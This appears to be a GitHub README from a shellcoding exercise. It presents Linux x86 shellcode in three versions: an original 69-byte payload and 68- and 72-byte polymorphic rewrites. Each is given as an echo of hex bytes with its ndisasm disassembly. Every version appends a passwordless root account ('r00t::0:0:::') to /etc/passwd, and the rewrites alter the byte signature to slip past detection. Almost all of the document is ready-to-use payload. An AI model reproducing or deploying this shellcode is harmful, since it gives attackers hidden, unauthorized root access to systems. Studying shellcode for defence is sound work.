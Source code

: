 ## Initial nasm code

Original shellcode: [Link](http://shell-storm.org/shellcode/files/shellcode-211.php)

Length: 69 bytes

Obtain from running: 

    echo -ne "\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x89\xc3\x6a\x04\x58\x31\xd2\x52\x68\x30\x3a\x3a\x3a\x68\x3a\x3a\x30\x3a\x68\x72\x30\x30\x74\x89\xe1\x6a\x0c\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
    
    00000000  6A05              push byte +0x5
    00000002  58                pop eax
    00000003  31C9              xor ecx,ecx
    00000005  51                push ecx
    00000006  6873737764        push dword 0x64777373
    0000000B  682F2F7061        push dword 0x61702f2f
    00000010  682F657463        push dword 0x6374652f
    00000015  89E3              mov ebx,esp
    00000017  66B90104          mov cx,0x401
    0000001B  CD80              int 0x80
    0000001D  89C3              mov ebx,eax
    0000001F  6A04              push byte +0x4
    00000021  58                pop eax
    00000022  31D2              xor edx,edx
    00000024  52                push edx
    00000025  68303A3A3A        push dword 0x3a3a3a30
    0000002A  683A3A303A        push dword 0x3a303a3a
    0000002F  6872303074        push dword 0x74303072
    00000034  89E1              mov ecx,esp
    00000036  6A0C              push byte +0xc
    00000038  5A                pop edx
    00000039  CD80              int 0x80
    0000003B  6A06              push byte +0x6
    0000003D  58                pop eax
    0000003E  CD80              int 0x80
    00000040  6A01              push byte +0x1
    00000042  58                pop eax
    00000043  CD80              int 0x80
    
  
 ## Polymorphic nasm code

Length: 68 bytes

Obtain from running: 

    echo -ne "\x6a\x05\x58\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x6a\x03\x5b\x83\xc0\x01\x50\x68\x30\x3a\x3a\x3a\x68\x3a\x3a\x30\x3a\x68\x72\x30\x30\x74\x89\xe1\x6a\x0c\x5a\xcd\x80\x83\xc3\x03\x89\xd8\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
    
    00000000  6A05              push byte +0x5
    00000002  58                pop eax
    00000003  51                push ecx
    00000004  6873737764        push dword 0x64777373
    00000009  682F2F7061        push dword 0x61702f2f
    0000000E  682F657463        push dword 0x6374652f
    00000013  89E3              mov ebx,esp
    00000015  66B90104          mov cx,0x401
    00000019  CD80              int 0x80
    0000001B  6A03              push byte +0x3
    0000001D  5B                pop ebx
    0000001E  83C001            add eax,byte +0x1
    00000021  50                push eax
    00000022  68303A3A3A        push dword 0x3a3a3a30
    00000027  683A3A303A        push dword 0x3a303a3a
    0000002C  6872303074        push dword 0x74303072
    00000031  89E1              mov ecx,esp
    00000033  6A0C              push byte +0xc
    00000035  5A                pop edx
    00000036  CD80              int 0x80
    00000038  83C303            add ebx,byte +0x3
    0000003B  89D8              mov eax,ebx
    0000003D  CD80              int 0x80
    0000003F  6A01              push byte +0x1
    00000041  58                pop eax
    00000042  CD80              int 0x80

## Easter egg 

 Due to changes made in the code are pretty insignificant to reduce the length in bytes, there is another file named root_user_bigger_length which is 72 bytes length with more modifications. 
 
Length: 72 bytes

Obtain from running: 

    echo -ne "\x6a\x05\x58\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x8d\x5d\xd4\x66\xb9\x01\x04\xcd\x80\x6a\x03\x5b\x83\xc0\x01\x50\x68\x30\x3a\x3a\x3a\x68\x3a\x3a\x30\x3a\x68\x72\x30\x30\x74\x8d\x4d\xc4\x6a\x0c\x5a\xcd\x80\x83\xc3\x03\x89\xd8\xcd\x80\x89\xd8\x83\xe8\x05\xcd\x80" | ndisasm -u -
    00000000  6A05              push byte +0x5
    00000002  58                pop eax
    00000003  51                push ecx
    00000004  6873737764        push dword 0x64777373
    00000009  682F2F7061        push dword 0x61702f2f
    0000000E  682F657463        push dword 0x6374652f
    00000013  8D5DD4            lea ebx,[ebp-0x2c]
    00000016  66B90104          mov cx,0x401
    0000001A  CD80              int 0x80
    0000001C  6A03              push byte +0x3
    0000001E  5B                pop ebx
    0000001F  83C001            add eax,byte +0x1
    00000022  50                push eax
    00000023  68303A3A3A        push dword 0x3a3a3a30
    00000028  683A3A303A        push dword 0x3a303a3a
    0000002D  6872303074        push dword 0x74303072
    00000032  8D4DC4            lea ecx,[ebp-0x3c]
    00000035  6A0C              push byte +0xc
    00000037  5A                pop edx
    00000038  CD80              int 0x80
    0000003A  83C303            add ebx,byte +0x3
    0000003D  89D8              mov eax,ebx
    0000003F  CD80              int 0x80
    00000041  89D8              mov eax,ebx
    00000043  83E805            sub eax,byte +0x5
    00000046  CD80              int 0x80
